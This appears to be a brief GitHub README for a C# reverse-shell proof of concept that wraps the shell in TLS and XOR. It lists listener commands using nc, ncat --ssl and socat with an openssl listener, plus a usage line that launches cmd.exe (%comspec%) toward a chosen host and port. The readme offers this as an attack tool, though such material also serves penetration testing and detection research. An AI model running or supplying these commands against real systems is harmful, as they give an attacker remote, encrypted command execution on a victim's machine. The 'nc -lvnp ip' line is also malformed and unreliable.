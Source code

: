 # Csharp_reverse_shell
nc -lvnp ip
c# reverse shell poc that also does TLS

Specify host, port, command, arguments, int XOR

Catch it with ncat --ssl or socat openssl-listen:443,cert=cert.pem,verify=0

All arguments are required,

e.g > csharp_reverse_shell.exe host 443 %comspec% "" 00
